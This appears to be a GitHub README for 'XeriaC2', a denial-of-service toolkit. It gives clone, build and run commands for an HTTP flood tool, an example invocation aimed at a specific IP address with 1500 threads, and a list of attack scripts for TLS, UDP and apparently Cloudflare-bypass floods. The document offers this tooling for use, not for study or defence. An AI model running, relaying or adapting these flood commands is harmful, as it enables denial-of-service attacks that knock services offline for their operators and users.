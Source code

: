 How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

python udp.py

python UDP.py

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
